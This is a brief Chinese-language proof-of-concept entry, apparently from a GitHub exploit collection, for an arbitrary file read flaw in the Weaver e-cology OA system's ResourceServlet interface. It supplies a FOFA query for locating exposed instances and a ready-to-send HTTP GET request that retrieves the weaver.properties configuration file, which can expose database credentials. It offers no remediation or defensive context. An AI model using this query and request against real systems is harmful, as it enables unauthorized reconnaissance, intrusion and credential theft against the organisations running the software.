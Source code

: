 ## 泛微-OA系统ResourceServlet接口任意文件读取漏洞

## fofa
```
app="泛微-OA(e-cology)"
```

## poc
```
GET /weaver/org.springframework.web.servlet.ResourceServlet?resource=/WEB-INF/prop/weaver.properties HTTP/1.1
```

